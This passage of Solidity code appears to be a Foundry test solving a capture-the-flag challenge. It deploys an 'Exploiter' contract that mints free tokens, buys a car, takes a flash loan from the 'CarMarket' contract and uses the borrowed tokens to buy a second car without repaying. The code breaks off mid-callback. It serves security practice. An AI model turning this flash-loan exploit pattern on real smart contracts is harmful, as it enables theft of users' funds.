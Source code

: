 ```solidity
        vm.label(address(carMarket), "CarMarket");
        vm.label(address(carToken), "CarToken");
    }

    function testTakeOwnership() public {
        address player = users[0];

        vm.prank(player);

        // Deploy the exploit contract
        Exploiter exploiter = new Exploiter(carFactory, carMarket, carToken);

        // Assert that our user has 0 car purchased
        assertEq(carMarket.getCarCount(address(exploiter)), 0);

        // Trigger the exploit!
        exploiter.startAttack();

        // Assert that our user has 2 car purchased (success)
        assertEq(carMarket.getCarCount(address(exploiter)), 2);
    }
}

contract Exploiter {
    CarFactory private carFactory;
    CarMarket private carMarket;
    CarToken private carToken;

    constructor(
        CarFactory _carFactory,
        CarMarket _carMarket,
        CarToken _carToken
    ) {
        carFactory = _carFactory;
        carMarket = _carMarket;
        carToken = _carToken;

        // Approve the carMarket to be able to use all the needed token
        // Usually it would be better to single approve only the amount needed for the purchase
        // So in total it would be 1 token for the first purchase + 100k tokens for the second one
        carToken.approve(address(carMarket), 100_001 ether);
    }

    function startAttack() public {
        // mint free cartoken
        carToken.mint();

        // puchase our first car with the "free" minted token
        carMarket.purchaseCar("blue", "ford mustang", "leet");

        // Trigger the flashloan of 100k tokens
        (bool success, ) = address(carMarket).call(abi.encodeWithSignature("flashLoan(uint256)", 100_000 ether));
        require(success, "flashloan failed");
    }

    function receivedCarToken(address) external {
        // Purchase a new car with the 100k token we received with the loan
        carMarket.purchaseCar("red", "ferrari", "aloah");

        // in a normal flashloan we would be forced to give back the loan (plus some fee on the loan itself)
```